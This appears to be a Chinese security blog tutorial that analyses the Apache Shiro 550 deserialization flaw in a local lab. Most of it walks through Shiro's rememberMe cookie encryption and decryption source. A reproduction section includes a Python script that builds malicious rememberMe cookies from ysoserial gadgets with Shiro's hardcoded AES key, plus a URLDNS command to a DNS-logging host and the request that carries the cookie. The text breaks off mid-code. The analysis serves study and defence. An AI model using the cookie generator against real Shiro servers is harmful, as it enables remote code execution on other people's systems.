

深入探究Shiro漏洞成因及攻击技术

- - -

# 深入探究Shiro漏洞成因及攻击技术

## 简介

官方文档：[https://shiro.apache.org/](https://shiro.apache.org/)

> Apache Shiro™ is a powerful and easy-to-use Java security framework that performs authentication, authorization, cryptography, and session management. With Shiro’s easy-to-understand API, you can quickly and easily secure any application – from the smallest mobile applications to the largest web and enterprise applications.

Apache Shiro是Java中的一个安全框架，可以执行身份验证、授权、加密和会话管理。  
关于漏洞：[https://shiro.apache.org/security-reports.html](https://shiro.apache.org/security-reports.html)

## Shiro550相关分析

### 环境搭建

地址：[https://codeload.github.com/apache/shiro/zip/shiro-root-1.2.4](https://codeload.github.com/apache/shiro/zip/shiro-root-1.2.4)  
使用IDEA打开文件夹，修改samples中web目录下的pom.xml

```plain
<dependencies>
    <dependency>
        <groupId>javax.servlet</groupId>
        <artifactId>jstl</artifactId>
        <version>1.2</version>
        <scope>runtime</scope>
    </dependency>
    <dependency>
        <groupId>javax.servlet</groupId>
        <artifactId>servlet-api</artifactId>
        <!-- <scope>provided</scope> -->
    </dependency>
    <dependency>
        <groupId>org.slf4j</groupId>
        <artifactId>slf4j-log4j12</artifactId>
        <scope>runtime</scope>
    </dependency>
    <dependency>
        <groupId>log4j</groupId>
        <artifactId>log4j</artifactId>
        <scope>runtime</scope>
    </dependency>
    <dependency>
        <groupId>net.sourceforge.htmlunit</groupId>
        <artifactId>htmlunit</artifactId>
        <version>2.6</version>
        <!-- <scope>test</scope> -->
    </dependency>
    <dependency>
        <groupId>org.apache.shiro</groupId>
        <artifactId>shiro-core</artifactId>
    </dependency>
    <dependency>
        <groupId>org.apache.shiro</groupId>
        <artifactId>shiro-web</artifactId>
    </dependency>
    <dependency>
        <groupId>org.mortbay.jetty</groupId>
        <artifactId>jetty</artifactId>
        <version>${jetty.version}</version>
        <scope>test</scope>
    </dependency>
    <dependency>
        <groupId>org.mortbay.jetty</groupId>
        <artifactId>jsp-2.1-jetty</artifactId>
        <version>${jetty.version}</version>
        <scope>test</scope>
    </dependency>
    <dependency>
        <groupId>org.slf4j</groupId>
        <artifactId>jcl-over-slf4j</artifactId>
        <scope>runtime</scope>
    </dependency>
    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-collections4</artifactId>
        <version>4.0</version>
    </dependency>
</dependencies>
```

使用maven3.1.1版本，使用jdk1.6进行package  
成功打包war包后，启动tomcat运行  
搭建成功界面  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231116233759-1edbea7e-8496-1.png)  
使用用户名和密码进行登录，登录时需要点击“Remember Me”  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231116233823-2d8430ae-8496-1.png)  
抓包分析  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231116233843-3907f50a-8496-1.png)

### 分析

#### remeberMe生成过程(加密)

在org/apache/shiro/web/mgt/CookieRememberMeManager类的rememberSerializedIdentity函数下断点，从函数字面可以猜测这应该是cookie设置的地方  
函数调用栈：

```plain
rememberSerializedIdentity:156, CookieRememberMeManager (org.apache.shiro.web.mgt)
rememberIdentity:347, AbstractRememberMeManager (org.apache.shiro.mgt)
rememberIdentity:321, AbstractRememberMeManager (org.apache.shiro.mgt)
onSuccessfulLogin:297, AbstractRememberMeManager (org.apache.shiro.mgt)
rememberMeSuccessfulLogin:206, DefaultSecurityManager (org.apache.shiro.mgt)
onSuccessfulLogin:291, DefaultSecurityManager (org.apache.shiro.mgt)
login:285, DefaultSecurityManager (org.apache.shiro.mgt)
login:256, DelegatingSubject (org.apache.shiro.subject.support)
executeLogin:53, AuthenticatingFilter (org.apache.shiro.web.filter.authc)
onAccessDenied:154, FormAuthenticationFilter (org.apache.shiro.web.filter.authc)
onAccessDenied:133, AccessControlFilter (org.apache.shiro.web.filter)
onPreHandle:162, AccessControlFilter (org.apache.shiro.web.filter)
isFilterChainContinued:203, PathMatchingFilter (org.apache.shiro.web.filter)
preHandle:178, PathMatchingFilter (org.apache.shiro.web.filter)
doFilterInternal:131, AdviceFilter (org.apache.shiro.web.servlet)
doFilter:125, OncePerRequestFilter (org.apache.shiro.web.servlet)
doFilter:66, ProxiedFilterChain (org.apache.shiro.web.servlet)
executeChain:449, AbstractShiroFilter (org.apache.shiro.web.servlet)
call:365, AbstractShiroFilter$1 (org.apache.shiro.web.servlet)
doCall:90, SubjectCallable (org.apache.shiro.subject.support)
call:83, SubjectCallable (org.apache.shiro.subject.support)
execute:383, DelegatingSubject (org.apache.shiro.subject.support)
doFilterInternal:362, AbstractShiroFilter (org.apache.shiro.web.servlet)
doFilter:125, OncePerRequestFilter (org.apache.shiro.web.servlet)
internalDoFilter:178, ApplicationFilterChain (org.apache.catalina.core)
doFilter:153, ApplicationFilterChain (org.apache.catalina.core)
invoke:167, StandardWrapperValve (org.apache.catalina.core)
invoke:90, StandardContextValve (org.apache.catalina.core)
invoke:492, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:130, StandardHostValve (org.apache.catalina.core)
invoke:93, ErrorReportValve (org.apache.catalina.valves)
invoke:673, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:74, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:389, Http11Processor (org.apache.coyote.http11)
process:63, AbstractProcessorLight (org.apache.coyote)
process:926, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1791, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1191, ThreadPoolExecutor (org.apache.tomcat.util.threads)
run:659, ThreadPoolExecutor$Worker (org.apache.tomcat.util.threads)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:832, Thread (java.lang)
```

从正向开始分析，从onSuccessfulLogin方法开始

```plain
public void onSuccessfulLogin(Subject subject, AuthenticationToken token, AuthenticationInfo info) {
    //always clear any previous identity:
    //清除之前的身份信息
    forgetIdentity(subject);

    //now save the new identity:
    //检查登入令牌是否请求了“Remeber Me”功能
    if (isRememberMe(token)) {
        //根据相关的信息生成新的身份信息
        rememberIdentity(subject, token, info);
    } else {
        if (log.isDebugEnabled()) {
            log.debug("AuthenticationToken did not indicate RememberMe is requested.  " +
                    "RememberMe functionality will not be executed for corresponding account.");
        }
    }
}
```

可以进入isRememberMe方法查看如何进行判断的

```plain
protected boolean isRememberMe(AuthenticationToken token) {
    // 第一个条件检查的是令牌是否为空
    // 第二个条件检查的是登录令牌token是否是RememberMeAuthenticationToken类型实例
    // 第三个条件是进一步调用实例中的isRememberMe方法
    return token != null && (token instanceof RememberMeAuthenticationToken) &&
            ((RememberMeAuthenticationToken) token).isRememberMe();
}
```

token是UsernamePasswordToken类对象，所以进入到此对象的isRememberMe方法

```plain
public boolean isRememberMe() {
    return rememberMe;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116233929-54d13986-8496-1.png)  
进入if条件中的rememberIdentity函数

```plain
public void rememberIdentity(Subject subject, AuthenticationToken token, AuthenticationInfo authcInfo) {
    // 从身份验证信息中提取用户的主体身份信息
    PrincipalCollection principals = getIdentityToRemember(subject, authcInfo);
    // 将用户的主体身份信息保存起来
    rememberIdentity(subject, principals);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116233948-5feb6e36-8496-1.png)  
进入重载的rememberIdentity函数

```plain
protected void rememberIdentity(Subject subject, PrincipalCollection accountPrincipals) {
    // 将主体身份信息转换为字节数组（byte[]）的形式
    byte[] bytes = convertPrincipalsToBytes(accountPrincipals);
    // 将序列化后的身份信息保存起来，以便在下次需要恢复用户身份时使用
    rememberSerializedIdentity(subject, bytes);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234004-69ae154a-8496-1.png)  
这里的关键是进入convertPrincipalsToBytes方法，通过这个函数将身份的相关信息转换成了byte数组

```plain
protected byte[] convertPrincipalsToBytes(PrincipalCollection principals) {
    // 先将身份信息进行序列化，转换成字节流
    byte[] bytes = serialize(principals);
    // getCipherService获取密码服务的实例
    if (getCipherService() != null) {
        // 对序列化后的字节流进行加密
        bytes = encrypt(bytes);
    }
    return bytes;
}
```

先来了解getCipherService函数

```plain
public CipherService getCipherService() {
    return cipherService;
}
```

其实就是返回一个类的属性，查看该类的构造函数观察对应属性的赋值

```plain
public AbstractRememberMeManager() {
    // 创建一个默认的序列化器
    this.serializer = new DefaultSerializer<PrincipalCollection>();
    // 创建一个AES加密算法的密码服务
    this.cipherService = new AesCipherService();
    // 设置密钥
    setCipherKey(DEFAULT_CIPHER_KEY_BYTES);
}
```

根据类名应该可以得知这里使用的是AES算法，从上下文可以获得固定在源码中的密钥

```plain
private static final byte[] DEFAULT_CIPHER_KEY_BYTES = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
```

获取到加密的服务之后，进入if中调用encrypt函数进行加密

```plain
protected byte[] encrypt(byte[] serialized) {
    // 序列化后的身份信息
    byte[] value = serialized;
    // 获取密码服务的实例
    CipherService cipherService = getCipherService();
    if (cipherService != null) {
        // 调用加密算法，对序列化的数据进行加密
        ByteSource byteSource = cipherService.encrypt(serialized, getEncryptionCipherKey());
        value = byteSource.getBytes();
    }
    return value;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234025-7644c90c-8496-1.png)  
进入encrypt方法,这里进入的是JcaCipherService类的encrypt方法

```plain
public ByteSource encrypt(byte[] plaintext, byte[] key) {
    // 用于存储初始化向量
    byte[] ivBytes = null;
    // 用于检查是否启用了生成初始化向量的选项
    boolean generate = isGenerateInitializationVectors(false);
    if (generate) {
        // 生成初始化向量
        ivBytes = generateInitializationVector(false);
        if (ivBytes == null || ivBytes.length == 0) {
            throw new IllegalStateException("Initialization vector generation is enabled - generated vector" +
                    "cannot be null or empty.");
        }
    }
    // 调用重载的加密方法
    return encrypt(plaintext, key, ivBytes, generate);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234044-81621916-8496-1.png)  
初始iv是如何生成的？  
查看generateInitializationVector方法

```plain
protected byte[] generateInitializationVector(boolean streaming) {
    // 获取初始向量的大小
    int size = getInitializationVectorSize();
    if (size <= 0) {
        String msg = "initializationVectorSize property must be greater than zero.  This number is " +
                "typically set in the " + CipherService.class.getSimpleName() + " subclass constructor.  " +
                "Also check your configuration to ensure that if you are setting a value, it is positive.";
        throw new IllegalStateException(msg);
    }
    // 初始向量大小需要是8的倍数   BITS_PER_BYTE表示8
    if (size % BITS_PER_BYTE != 0) {
        String msg = "initializationVectorSize property must be a multiple of 8 to represent as a byte array.";
        throw new IllegalStateException(msg);
    }
    // 字节数
    int sizeInBytes = size / BITS_PER_BYTE;
    // 创建字节数组
    byte[] ivBytes = new byte[sizeInBytes];
    // 获取一个安全的随机数生成器
    SecureRandom random = ensureSecureRandom();
    // 使用随机数生成器生成随机字节
    random.nextBytes(ivBytes);
    return ivBytes;
}
```

查看向量大小的生成getInitializationVectorSize方法

```plain
public int getInitializationVectorSize() {
    return initializationVectorSize;
}
```

返回一个属性值，查看其构造方法

```plain
protected JcaCipherService(String algorithmName) {
    if (!StringUtils.hasText(algorithmName)) {
        throw new IllegalArgumentException("algorithmName argument cannot be null or empty.");
    }
    this.algorithmName = algorithmName;
    this.keySize = DEFAULT_KEY_SIZE;
    // DEFAULT_KEY_SIZE指128
    this.initializationVectorSize = DEFAULT_KEY_SIZE; //default to same size as the key size (a common algorithm practice)
    this.streamingBufferSize = DEFAULT_STREAMING_BUFFER_SIZE;
    this.generateInitializationVectors = true;
}
```

综上所述，这里的iv是随机生成的16位字节  
进入重载的encrypt方法

```plain
private ByteSource encrypt(byte[] plaintext, byte[] key, byte[] iv, boolean prependIv) throws CryptoException {
    // 加密模式
    final int MODE = javax.crypto.Cipher.ENCRYPT_MODE;

    byte[] output;

    if (prependIv && iv != null && iv.length > 0) {
        // 加密操作
        byte[] encrypted = crypt(plaintext, key, iv, MODE);

        output = new byte[iv.length + encrypted.length];

        //now copy the iv bytes + encrypted bytes into one output array:

        // iv bytes:
        System.arraycopy(iv, 0, output, 0, iv.length);

        // + encrypted bytes:
        System.arraycopy(encrypted, 0, output, iv.length, encrypted.length);
    } else {
        output = crypt(plaintext, key, iv, MODE);
    }

    if (log.isTraceEnabled()) {
        log.trace("Incoming plaintext of size " + (plaintext != null ? plaintext.length : 0) + ".  Ciphertext " +
                "byte array is size " + (output != null ? output.length : 0));
    }
    // 将加密结果转换为 ByteSource 对象并返回
    return ByteSource.Util.bytes(output);
}
```

继续进入crypt函数

```plain
private byte[] crypt(byte[] bytes, byte[] key, byte[] iv, int mode) throws IllegalArgumentException, CryptoException {
    if (key == null || key.length == 0) {
        throw new IllegalArgumentException("key argument cannot be null or empty.");
    }
    javax.crypto.Cipher cipher = initNewCipher(mode, key, iv, false);
    return crypt(cipher, bytes);
}
```

这里其实就是AES内部的加密细节了  
encrypt函数执行到最后结果如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234106-8e74649c-8496-1.png)  
得到加密后的结果，回到rememberIdentity函数  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234123-9892ba14-8496-1.png)  
进入rememberSerializedIdentity函数

```plain
protected void rememberSerializedIdentity(Subject subject, byte[] serialized) {

    if (!WebUtils.isHttp(subject)) {
        if (log.isDebugEnabled()) {
            String msg = "Subject argument is not an HTTP-aware instance.  This is required to obtain a servlet " +
                    "request and response in order to set the rememberMe cookie. Returning immediately and " +
                    "ignoring rememberMe operation.";
            log.debug(msg);
        }
        return;
    }


    HttpServletRequest request = WebUtils.getHttpRequest(subject);
    HttpServletResponse response = WebUtils.getHttpResponse(subject);

    //base 64 encode it and store as a cookie:
    String base64 = Base64.encodeToString(serialized);

    Cookie template = getCookie(); //the class attribute is really a template for the outgoing cookies
    Cookie cookie = new SimpleCookie(template);
    cookie.setValue(base64);
    cookie.saveTo(request, response);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234143-a45e78b0-8496-1.png)  
设置cooike成功  
**总结**：身份信息进行序列化——>AES加密——>Base64加密——>cookie中的remeberMe

#### Cookie解密过程

函数调用栈：

```plain
decrypt:386, JcaCipherService (org.apache.shiro.crypto)
decrypt:382, JcaCipherService (org.apache.shiro.crypto)
decrypt:489, AbstractRememberMeManager (org.apache.shiro.mgt)
convertBytesToPrincipals:429, AbstractRememberMeManager (org.apache.shiro.mgt)
getRememberedPrincipals:396, AbstractRememberMeManager (org.apache.shiro.mgt)
getRememberedIdentity:604, DefaultSecurityManager (org.apache.shiro.mgt)
resolvePrincipals:492, DefaultSecurityManager (org.apache.shiro.mgt)
createSubject:342, DefaultSecurityManager (org.apache.shiro.mgt)
buildSubject:846, Subject$Builder (org.apache.shiro.subject)
buildWebSubject:148, WebSubject$Builder (org.apache.shiro.web.subject)
createSubject:292, AbstractShiroFilter (org.apache.shiro.web.servlet)
doFilterInternal:359, AbstractShiroFilter (org.apache.shiro.web.servlet)
doFilter:125, OncePerRequestFilter (org.apache.shiro.web.servlet)
internalDoFilter:178, ApplicationFilterChain (org.apache.catalina.core)
doFilter:153, ApplicationFilterChain (org.apache.catalina.core)
invoke:167, StandardWrapperValve (org.apache.catalina.core)
invoke:90, StandardContextValve (org.apache.catalina.core)
invoke:492, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:130, StandardHostValve (org.apache.catalina.core)
invoke:93, ErrorReportValve (org.apache.catalina.valves)
invoke:673, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:74, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:389, Http11Processor (org.apache.coyote.http11)
process:63, AbstractProcessorLight (org.apache.coyote)
process:926, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1791, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1191, ThreadPoolExecutor (org.apache.tomcat.util.threads)
run:659, ThreadPoolExecutor$Worker (org.apache.tomcat.util.threads)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:832, Thread (java.lang)
```

使用前面生成的remeberMe的cookie值进行请求

```plain
curl -X GET -H "cookie:rememberMe=jCmif8/p5A+C+p5PwHTlOWNsUCikdqRc5mLEb1PsaBvuroIawHP/03Zenr4iVKL3RsWjWCt3YkFsVXQKf4pkQLwPRUa4M9gzUuEmUZfR8U2YsXXETs8oYxatlg7IovW9/eM/jyqjWZ5sYQT7me+DY2lDSUasvbZofwaApRLrDw0xxM79I6XNpz0nlCkuAdWsZvS8ghAZyByl/UAWITIxbeNF6vWnwjsTcHtskaZ0QBwh4BGreNrVAh0dbl5Ah8U3BEID3yndJ9y7lbIT/QQTvfFgim6Rjh3TQaFIC6Dt+rxO782rJ4dkswpf3UOih35I47Vm/LcJzrvnxNlMQyPa8ttHMZEVsfh8mSKAeePyzkkM5j6yeY764AAH160CD1e8DXJlz6gyo+1bCJqmvDgPPfoIRPCVPsNlDUipANkGqYZvk9A8diXf3EiOuuvebbFuPsmYPsFWdiVnoV6Q9z+iHfO19mojLNsDHdeyQEHYE5FvsPrqPGnsaJc9NUBqNpOb; Phpstorm-10d910bb=a6bc0397-210c-4145-96b8-e9aedf363376" http://localhost:8090/samples_web_war/
```

在AbstractRememberMeManager类的getRememberedPrincipals方法中下断点

```plain
public PrincipalCollection getRememberedPrincipals(SubjectContext subjectContext) {
    PrincipalCollection principals = null;
    try {
        // 获取被记住的主体身份的序列化字节数组
        byte[] bytes = getRememberedSerializedIdentity(subjectContext);
        //SHIRO-138 - only call convertBytesToPrincipals if bytes exist:
        if (bytes != null && bytes.length > 0) {
            // 将序列化字节数组转换为主体身份集合
            principals = convertBytesToPrincipals(bytes, subjectContext);
        }
    } catch (RuntimeException re) {
        principals = onRememberedPrincipalFailure(re, subjectContext);
    }

    return principals;
}
```

进入getRememberedSerializedIdentity函数

```plain
protected byte[] getRememberedSerializedIdentity(SubjectContext subjectContext) {

    if (!WebUtils.isHttp(subjectContext)) {
        if (log.isDebugEnabled()) {
            String msg = "SubjectContext argument is not an HTTP-aware instance.  This is required to obtain a " +
                    "servlet request and response in order to retrieve the rememberMe cookie. Returning " +
                    "immediately and ignoring rememberMe operation.";
            log.debug(msg);
        }
        return null;
    }

    WebSubjectContext wsc = (WebSubjectContext) subjectContext;
    if (isIdentityRemoved(wsc)) {
        return null;
    }

    // 获取Servlet请求对象
    HttpServletRequest request = WebUtils.getHttpRequest(wsc);
    // 获取Servlet响应对象
    HttpServletResponse response = WebUtils.getHttpResponse(wsc);
    // 从请求中读取 cookie 的值
    String base64 = getCookie().readValue(request, response);
    // Browsers do not always remove cookies immediately (SHIRO-183)
    // ignore cookies that are scheduled for removal
    if (Cookie.DELETED_COOKIE_VALUE.equals(base64)) return null;

    if (base64 != null) {
        base64 = ensurePadding(base64);
        if (log.isTraceEnabled()) {
            log.trace("Acquired Base64 encoded identity [" + base64 + "]");
        }
        // 将 Base64 编码的字符串解码为字节数组
        byte[] decoded = Base64.decode(base64);
        if (log.isTraceEnabled()) {
            log.trace("Base64 decoded byte array length: " + (decoded != null ? decoded.length : 0) + " bytes.");
        }
        return decoded;
    } else {
        //no cookie set - new site visitor?
        return null;
    }
}
```

进入convertBytesToPrincipals方法

```plain
protected PrincipalCollection convertBytesToPrincipals(byte[] bytes, SubjectContext subjectContext) {
    // 获取加密服务对象
    if (getCipherService() != null) {
        // 解密
        bytes = decrypt(bytes);
    }
    // 对解密后的结果进行反序列化
    return deserialize(bytes);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234215-b78fabf2-8496-1.png)  
进入decrypt函数

```plain
protected byte[] decrypt(byte[] encrypted) {
    byte[] serialized = encrypted;
    CipherService cipherService = getCipherService();
    if (cipherService != null) {
        // 调用解密方法进行解密
        ByteSource byteSource = cipherService.decrypt(encrypted, getDecryptionCipherKey());
        serialized = byteSource.getBytes();
    }
    return serialized;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234231-c0eb9f8a-8496-1.png)  
进入到JcaCipherService类的decrypt方法

```plain
public ByteSource decrypt(byte[] ciphertext, byte[] key) throws CryptoException {

    byte[] encrypted = ciphertext;

    //No IV, check if we need to read the IV from the stream:
    byte[] iv = null;

    if (isGenerateInitializationVectors(false)) {
        try {
            //We are generating IVs, so the ciphertext argument array is not actually 100% cipher text.  Instead, it
            //is:
            // - the first N bytes is the initialization vector, where N equals the value of the
            // 'initializationVectorSize' attribute.
            // - the remaining bytes in the method argument (arg.length - N) is the real cipher text.

            //So we need to chunk the method argument into its constituent parts to find the IV and then use
            //the IV to decrypt the real ciphertext:

            int ivSize = getInitializationVectorSize();
            int ivByteSize = ivSize / BITS_PER_BYTE;

            //now we know how large the iv is, so extract the iv bytes:
            iv = new byte[ivByteSize];
            System.arraycopy(ciphertext, 0, iv, 0, ivByteSize);

            //remaining data is the actual encrypted ciphertext.  Isolate it:
            int encryptedSize = ciphertext.length - ivByteSize;
            encrypted = new byte[encryptedSize];
            System.arraycopy(ciphertext, ivByteSize, encrypted, 0, encryptedSize);
        } catch (Exception e) {
            String msg = "Unable to correctly extract the Initialization Vector or ciphertext.";
            throw new CryptoException(msg, e);
        }
    }

    return decrypt(encrypted, key, iv);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234249-cbdba9ee-8496-1.png)  
这里的函数的大概意思是将传入的ciphertext分成iv和encrypted两部分，在传入重载的decrypt中进行解密

```plain
private ByteSource decrypt(byte[] ciphertext, byte[] key, byte[] iv) throws CryptoException {
    if (log.isTraceEnabled()) {
        log.trace("Attempting to decrypt incoming byte array of length " +
                (ciphertext != null ? ciphertext.length : 0));
    }
    byte[] decrypted = crypt(ciphertext, key, iv, javax.crypto.Cipher.DECRYPT_MODE);
    return decrypted == null ? null : ByteSource.Util.bytes(decrypted);
}
```

这里面就是进行AES解密的部分  
回到convertBytesToPrincipals函数部分  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234315-db7cf434-8496-1.png)  
进入deserialize中

```plain
protected PrincipalCollection deserialize(byte[] serializedIdentity) {
    return getSerializer().deserialize(serializedIdentity);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234334-e66792fa-8496-1.png)  
这里的getSerializer即获取序列化器，然后调用反序列化函数

```plain
public T deserialize(byte[] serialized) throws SerializationException {
    if (serialized == null) {
        String msg = "argument cannot be null.";
        throw new IllegalArgumentException(msg);
    }
    ByteArrayInputStream bais = new ByteArrayInputStream(serialized);
    BufferedInputStream bis = new BufferedInputStream(bais);
    try {
        ObjectInputStream ois = new ClassResolvingObjectInputStream(bis);
        @SuppressWarnings({"unchecked"})
        // 重点是这里   调用了readObject函数，也是触发各种恶意链的地方
        T deserialized = (T) ois.readObject();
        ois.close();
        return deserialized;
    } catch (Exception e) {
        String msg = "Unable to deserialze argument byte array.";
        throw new SerializationException(msg, e);
    }
}
```

最后返回至getRememberedPrincipals函数，得到了principal实例对象  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231116234353-f1f50cec-8496-1.png)  
下面就是身份验证的步骤了  
**总结**：  
获取remeberMe的值——>base64解密——>AES解密——>反序列化

### 复现及利用

#### shiro+URLDNS

生成remeberMe的cookie值

```plain
# -*- coding:utf-8 -*-
import base64
import uuid
import subprocess
import optparse
from Crypto.Cipher import AES


def remeberMe(command, ysoserial_path):
    #popen = subprocess.Popen(['java', '-jar', ysoserial_path, 'URLDNS', command], stdout=subprocess.PIPE)
    if len(command) <= 0:
        return None
    arr = ['java', '-jar', ysoserial_path] + command
    # print(arr)
    popen = subprocess.Popen(arr, stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    mode = AES.MODE_CBC
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    parse = optparse.OptionParser(usage = 'python3 %prog [-h] [-p path-ysoserial] [-m method] [-c command]')
    parse.add_option('-p', '--path-ysoserial', dest='path', help='path ysoserial', default='ysoserial.jar')
    parse.add_option('-c', '--command', dest='command', help='command')
    parse.add_option('-m', '--method', dest='method', help='ysoserial method')

    options, args = parse.parse_args()
    if not options.command or not options.method:
        print('Usage:python3 generate_remeberMe.py [-c command] [-m method]\n')
        exit('generate_remeberMe.py:error:missing a mandatory option(-c,-m).Use -h for basic and -hh for advanced help')

    args_list = [options.method, options.command]
    print(args_list)
    payload = remeberMe(args_list, options.path)
    with open("./payload.cookie", "w") as fpw:

        print("rememberMe={}".format(payload.decode()))
        res = "rememberMe={}".format(payload.decode())
        fpw.write(res)
```

运行脚本

```plain
python3 generate_remeberMe.py -p ../ysoserial-all.jar -m URLDNS -c http://q3kbhojx.eyes.sh
```

生成的cookie值

```plain
rememberMe=zCmIVaHZRWaEDgG4ai9KtSyUBRDy64H02wKgeXOeABaFiUbjOXTdpaqi42ete4k8xF0C1u0HpWFOccMjPvGMmzgu7/wSbi4tYDGSanE+aVQU9VYD/L2mdOQyqYliPNelAmbnTNl8tVnQEA9wAbVDrvdJOObIeLNiHweoY6d7iOOXBym5GTjFrvI/5+/bZ6PABVkVySJsjEOzs7cJdYI6JVyqnEVFwoZnWNDAj9oSwOkxsmKQ5zyV8WZQOD8ywANAotwPYrOGG21E9/50FJbOBCGhwxr4sCyrn2Y1GrG4DdZ37ykK+ebAJd7gQEMdlvbegYGn2v2fTGbwgpGEHC41q2Km1r62PRR3wJ99sp85yrX1unQdMVW0K+KAXvTEaIjRkVflhpgmA0v2A9L+G2rRfg==
```

发送包进行请求

```plain
GET /samples_web_war/ HTTP/1.1
Host: 192.168.3.136:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=2B290CC9ACB7DC118345F067BAB9693C; rememberMe=zCmIVaHZRWaEDgG4ai9KtSyUBRDy64H02wKgeXOeABaFiUbjOXTdpaqi42ete4k8xF0C1u0HpWFOccMjPvGMmzgu7/wSbi4tYDGSanE+aVQU9VYD/L2mdOQyqYliPNelAmbnTNl8tVnQEA9wAbVDrvdJOObIeLNiHweoY6d7iOOXBym5GTjFrvI/5+/bZ6PABVkVySJsjEOzs7cJdYI6JVyqnEVFwoZnWNDAj9oSwOkxsmKQ5zyV8WZQOD8ywANAotwPYrOGG21E9/50FJbOBCGhwxr4sCyrn2Y1GrG4DdZ37ykK+ebAJd7gQEMdlvbegYGn2v2fTGbwgpGEHC41q2Km1r62PRR3wJ99sp85yrX1unQdMVW0K+KAXvTEaIjRkVflhpgmA0v2A9L+G2rRfg==
Connection: close
```

最后会在DNS平台上出现请求记录  
发送包后代码的具体执行如上述cookie解密过程一致，先对设置的payload进行base64解密，然后再对其进行AES解密，最后将得到的字节码进行反序列化操作，调用readObject函数，触发URLDNS链

### 难点

#### 关于resolveClass

再使用ObjectInputStream类的readObject函数进行反序列化的过程中，其中会进行resolveClass方法来查找类；在ObjectInputStream类的resolveClass方法中通过Class.forName来获取当前描述器所指代的类的Class对象，但是Shiro中重写了ObjectInputStream类的resolveClass方法，它采用的是ClassUtils.forName来查找  
查看ClassResolvingObjectInputStream类的resolveClass函数

```plain
@Override
protected Class<?> resolveClass(ObjectStreamClass osc) throws IOException, ClassNotFoundException {
    try {
        return ClassUtils.forName(osc.getName());
    } catch (UnknownClassException e) {
        throw new ClassNotFoundException("Unable to load ObjectStreamClass [" + osc + "]: ", e);
    }
}
```

进入ClassUtils.forName函数

```plain
public static Class forName(String fqcn) throws UnknownClassException {

    Class clazz = THREAD_CL_ACCESSOR.loadClass(fqcn);

    if (clazz == null) {
        if (log.isTraceEnabled()) {
            log.trace("Unable to load class named [" + fqcn +
                    "] from the thread context ClassLoader.  Trying the current ClassLoader...");
        }
        clazz = CLASS_CL_ACCESSOR.loadClass(fqcn);
    }

    if (clazz == null) {
